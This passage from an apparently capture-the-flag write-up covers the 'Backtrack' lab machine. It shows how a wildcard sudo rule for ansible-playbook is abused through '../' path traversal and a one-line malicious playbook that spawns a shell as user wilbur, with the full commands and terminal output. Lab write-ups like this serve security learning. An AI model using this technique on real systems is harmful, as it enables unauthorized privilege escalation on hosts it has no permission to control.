 We can run ansible scripts as user `wilbur`, the yml file we can run are located in the `/opt/test_playbooks`.

```terminal
tomcat@Backtrack:/opt/test_playbooks$ ls -la
total 16
drwxr-xr-x 2 wilbur wilbur 4096 Mar  9  2024 .
drwxr-xr-x 5 root   root   4096 Mar  9  2024 ..
-rw-rw-r-- 1 wilbur wilbur  340 Oct 12  2023 failed_login.yml
-rw-rw-r-- 1 wilbur wilbur  532 Oct 13  2023 suspicious_ports.yml
tomcat@Backtrack:/opt/test_playbooks$
```

We don't have any write permissions over this, but there is a wildcard `*` on the sudo command which means we can use `../` and change the directory.

Going to [GTFOBins](https://gtfobins.github.io/gtfobins/ansible-playbook/#sudo) we can find how to exploit sudo ansible.

![gtfobing](5.png)

We need to create a malicious yml file using the following command:

```bash
echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' > /tmp/shell.yml
```

We give the file 777 permission and run the sudo command.

```bash
chmod 777 /tmp/shell.yml
sudo -u wilbur /usr/bin/ansible-playbook /opt/test_playbooks/../../tmp/shell.yml`
```

```terminal
tomcat@Backtrack:/$ echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' > /tmp/shell.yml
tomcat@Backtrack:/$ chmod 777 /tmp/shell.yml
tomcat@Backtrack:/$ sudo -u wilbur /usr/bin/ansible-playbook /opt/test_playbooks/../../tmp/shell.yml
[WARNING]: provided hosts list is empty, only localhost is available. Note that
the implicit localhost does not match 'all'
[WARNING]: Skipping plugin (/usr/lib/python3/dist-                                             
packages/ansible/plugins/connection/httpapi.py) as it seems to be invalid:                     
module 'lib' has no attribute 'X509_V_FLAG_NOTIFY_POLICY'
[WARNING]: Skipping plugin (/usr/lib/python3/dist
[...]
PLAY [localhost] ***************************************************************

TASK [Gathering Facts] *********************************************************
ok: [localhost]

TASK [shell] *******************************************************************
$ id
uid=1004(wilbur) gid=1004(wilbur) groups=1004(wilbur)
```
